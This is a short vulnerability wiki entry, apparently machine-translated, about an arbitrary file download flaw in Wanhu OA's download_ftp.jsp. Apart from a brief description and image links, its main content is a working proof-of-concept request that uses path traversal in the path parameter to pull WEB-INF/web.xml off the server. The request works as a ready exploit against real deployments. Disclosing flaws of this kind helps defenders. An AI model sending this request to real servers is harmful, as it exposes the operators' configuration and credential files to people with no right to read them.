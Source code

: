 # Wanhu OA download_ftp.jsp any file download vulnerability

## Vulnerability Description

There is a vulnerability to download any file on Wanhu OA download_ftp.jsp file. The attacker can download any file on the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Ten thousand households OA </span>

## Network surveying and mapping



## Vulnerability reappears

Product Page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1631323798806-958050db-05f6-47ca-95b4-74487ee67a66.png)

Verify POC

```javascript
/defaultroot/download_ftp.jsp?path=/../WEB-INF/&name=aaa&FileName=web.xml
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1646135727614-308c38fd-932b-4dc1-a43d-aa5ddfe6898a.png)